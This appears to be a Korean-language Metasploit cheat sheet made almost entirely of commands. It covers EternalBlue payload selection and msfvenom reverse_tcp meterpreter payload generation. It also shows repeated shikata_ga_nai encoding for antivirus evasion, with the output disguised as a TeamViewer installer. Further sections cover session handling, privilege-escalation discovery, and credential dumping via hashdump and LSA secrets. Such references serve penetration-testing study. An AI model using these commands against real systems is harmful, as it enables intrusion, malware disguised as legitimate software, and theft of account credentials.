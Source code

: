 # MSF Components

### 모듈 검색
```msf6 > search <모듈명>```

### 특정 Exploit 모듈 검색
```msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft```

## 특정 Payload 검색
```msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads```

### 특정 Payload 추가 명령 검색
```msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads```

### MSFVenom으로 Payload 생성 (예 : aspx)
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f aspx > reverse_shell.aspx```

### 권한 상승을 위한 Local Exploit Suggester 실행
```
msf6 > search local exploit suggester
...
2376  post/multi/recon/local_exploit_suggester
...

msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > set session 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

### MSFVenom으로 Payload Encoding (예 : shikata_ga_nai)
```msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai```

### MSF에서 Payload Encoding
```msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders```

### 탐지 우회를 위한 반복 Encoding (약간의 효과)
```
(일반) msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

### 플러그인 추가 설치(예 : pentest)
```
git clone https://github.com/darkoperator/Metasploit-Plugins
cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
msfconsole -q
msf > load pentest
```

### 추가 모듈 로딩 방법(3가지)
- ```msfconsole -m /usr/share/metasploit-framework/modules/```
- ```msf6> loadpath /usr/share/metasploit-framework/modules/```
- ```msf6 > reload_all```

### 인기 있는 플러그인
| [nMap (pre-installed)](https://nmap.org/)                                                                           | [NexPose (pre-installed)](https://sectools.org/tool/nexpose/)                                                                       | [Nessus (pre-installed)](https://www.tenable.com/products/nessus)                                               |
| ------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------- |
| [Mimikatz (pre-installed V.1)](http://blog.gentilkiwi.com/mimikatz)                                                 | [Stdapi (pre-installed)](https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Stdapi/Stdapi) | [Railgun](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation) |
| [Priv](https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/priv/priv.rb) | [Incognito (pre-installed)](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)                                 | [Darkoperator's](https://github.com/darkoperator/Metasploit-Plugins)                                            |

<br/><br/>
# MSF Sessions

### 활성 Session List
```msf6 exploit(windows/smb/psexec_psh) > sessions```

### 활성 Session 사용
```msf6 exploit(windows/smb/psexec_psh) > sessions -i 1```

### 백그라운드 Job으로 실행
```msf6 exploit(multi/handler) > exploit -j```

### 백그라운드 Job List
```msf6 exploit(multi/handler) > jobs -l```

### Meterpreter Session에서 MSF로 잠시 전환
```meterpreter > bg```

### Local Exploit Suggester로 권한 상승 exploit 테스트
```
msf6 > search local exploit suggester
msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > set session 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

### Meterpreter Session에서 Hash 추출 (SYSTEM 권한일 경우)
```meterpreter > hashdump```<br/>
```meterpreter > lsa_dump_sam```<br/>
```meterpreter > lsa_dump_secrets```
